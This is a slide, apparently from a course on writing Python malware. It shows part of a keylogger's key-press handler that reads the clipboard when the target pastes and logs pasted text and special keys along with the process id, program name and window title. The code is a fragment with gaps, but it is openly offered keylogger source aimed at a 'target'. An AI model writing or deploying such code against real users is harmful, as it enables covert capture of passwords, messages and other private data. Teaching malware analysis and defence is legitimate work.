

Python Malwares (cont.)
Writing a Keylogger (cont.)
If the target presses CTRL-V, then it logs it as a paste operation.

Otherwise, it logs the special key (e.g: LControl, Enter, …etc) between two brackets.
def key_pressed(event):
    ...
    else:
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            # add pasted content to keylog result
            add_info(current_pid, current_exec_name, current_window_title, f"[PASTE] -> {pasted_value}" + " ")
        else:
            # add special keys to keylog result
            add_info(current_pid, current_exec_name, current_window_title, f"[{event.Key}]"+ " ")
    ...
Finally, we return true to indicate that the handling of the key hook has been successfully handled.
def key_pressed(event):
    ...
    return True
139